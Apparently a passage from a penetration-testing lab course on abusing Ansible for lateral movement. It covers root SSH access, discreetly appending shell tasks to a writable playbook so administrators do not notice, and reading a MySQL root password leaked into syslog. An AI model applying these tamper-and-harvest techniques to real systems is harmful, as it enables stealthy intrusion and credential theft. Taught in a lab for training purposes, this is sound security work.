 Now we can log in through SSH as root on the machine:
```bash
kali@kali:~$ ssh root@linuxvictim
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-20-generic x86_64)
...
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law.
root@linuxvictim:~#
```

We could completely overwrite the playbook if we wanted to, but that would change its intended functionality. This behavior is likely to be noticed by the administrator, especially if the playbook is run frequently. It’s much more discreet to keep the original functionality intact, tack on several new tasks, and add the become value to ensure the playbook is run as root.

There may be a situation where we want to run shell commands directly on the machine. To do this, we insert the commands we want to run in a command854 Ansible task in the getinfowritable.yaml playbook we used earlier:
```yaml
- name: Run command
	shell: touch /tmp/mycreatedfile.txt
	async: 10
	poll: 0
```

# Sensitive Data Leakage

Another way that Ansible can be useful for lateral movement is through sensitive data leaks. Although there are protections for credentials and sensitive data being used in module parameters in Ansible playbooks, some modules leak data to /var/log/syslog in the form of module parameters. This happens when the set of a module’s parameters are not fixed and can potentially change depending on how the module is being run.
```yaml
ansibleadm@controller:/opt/playbooks$ cat mysqlbackup.yml
---
	- name: Backup TPS reports
		hosts: linuxvictim
		gather_facts: true
		become: yes
		tasks:
	- name: Run command
		shell: mysql --user=root --password=hotdog123 --host=databaseserver --databases
		tpsreports --result-file=/root/reportsbackup
		async: 10
		poll: 0
```

When the Ansible administrator runs the playbook on the node (our linuxvictim machine), it attempts to connect to the MySQL server and dump the database. However, because of how it is executed, the playbook will log the shell command to syslog by default. An exception to this is when the no_log option is set to true in the playbook.

Login in to the that server and looking at the logs:
```bash
offsec@linuxvictim:~$ cat /var/log/syslog
...
Jun 8 13:29:10 linuxvictim ansible-command: Invoked with creates=None executable=None _uses_shell=True strip_empty_ends=True _raw_params=mysql --user=root --password=hotdog123 --host=databaseserver --databases tpsreports --resultfile=/root/reportsbackup removes=None argv=None warn=True chdir=None stdin_add_newline=True stdin=None
Jun 8 13:29:10 linuxvictim ansible-async_wrapper.py: Module complete (21772)
...